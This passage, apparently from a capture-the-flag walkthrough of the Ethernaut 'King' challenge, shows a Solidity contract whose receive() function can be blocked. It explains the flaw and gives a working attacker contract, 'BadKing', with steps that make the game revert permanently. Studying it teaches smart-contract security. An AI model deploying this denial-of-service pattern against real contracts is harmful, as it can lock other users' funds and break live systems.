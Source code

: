 ```solidity
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

### Vulnerable Parts

```solidity
receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value); // <---- Vulnerable
    king = msg.sender;
    prize = msg.value;
  }
```

1. `king.transfer(msg.value)` is vulnerable because if king doesn't accept any payment, it will always revert.

### Attack!

Use another contract to attack!

```solidity
contract BadKing {
  address payable private s_kingAddress;

  // Need to pay some eth to the constructor, since the contract doesn't have a receive() function.
  constructor (address payable _kingAddress) public payable {
    s_kingAddress = _kingAddress;
  }

  function attack() public payable {
    (bool success,) = s_kingAddress.call{value: msg.value}("");
    require(success);
  }

  // Don't implement a receive function. This contract is not supposed to receive any payment.
}
```

1. Deploy this contract with some eth (say 0.003).
2. Call attack with a value less than the eth deposited (need to pay for gas).
3. Broke the game!
